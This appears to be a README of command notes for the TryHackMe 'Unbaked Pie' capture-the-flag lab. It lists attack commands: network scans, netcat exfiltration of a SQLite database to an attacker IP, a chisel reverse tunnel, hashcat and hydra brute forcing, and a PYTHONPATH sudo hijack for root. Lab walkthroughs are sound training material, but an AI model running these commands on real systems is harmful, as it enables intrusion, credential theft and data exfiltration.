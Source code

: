 # TryHackMe-Unbaked Pie

**Scope:**

- Python Deserialization
- PYTHONPATH
- Port Tunneling

**Keywords:**

- Python Deserialization
- Bash History
- SQLite Database Enumeration
- sqlite3
- Hash Cracking
- Port Tunneling for SSH
- chisel
- Login Brute Force
- SSH Keygen
- PYTHONPATH
- SETENV
- Netcat File Transfer

Main Commands:

- `nmap -sSVC -T4 -A -O -oN nmap_result.txt -p- -Pn --min-rate 1000 --max-retries 3 $target_ip`
- `echo 'gASVBwAAAAAAAACMA3BpZZQu' | base64 -d | sed 's/\x00/ /g'`
- `sudo tcpdump -i tun0 icmp`
- `nc -l -p 11342 > db.sqlite3`
- `sqlite3 db.sqlite3`
- `hashcat -a0 -m 10000 userhashes.txt /usr/share/wordlists/rockyou.txt`
- `sudo chisel server -p 1880 --reverse`
- `hydra -l ramsey -P /usr/share/wordlists/rockyou.txt -f -e ns -t 50 ssh://localhost`
- `ssh ramsey@localhost -p 22`

**System Commands:**

- `find / -type f -perm -u=s -user oliver -ls 2>/dev/null`
- `find / -writable 2>/dev/null`
- `sudo -l`
- `sudo -u root PYTHONPATH=/home/oliver /usr/bin/python /opt/dockerScript.py`
- `/bin/bash -p`
- `ssh -i oliver oliver@unbaked`
- `ssh-keygen -f oliver`
- `getcap -r / 2>/dev/null`
- `getent group ramsey`
- `./chisel client 10.2.37.37:1880 R:22:172.17.0.1:22`
- `nc -w 3 10.2.37.37 11342 < db.sqlite3`
- `nc -zv 172.17.0.1 1-6000`
- `ps -aux`
- `ss -tulwn`
- `for i in {1..254} ;do (ping -c 1 172.17.0.$i | grep "bytes from" &) ;done`
- `SHELL=/bin/bash script -q /dev/null`
- `export TERM=xterm`
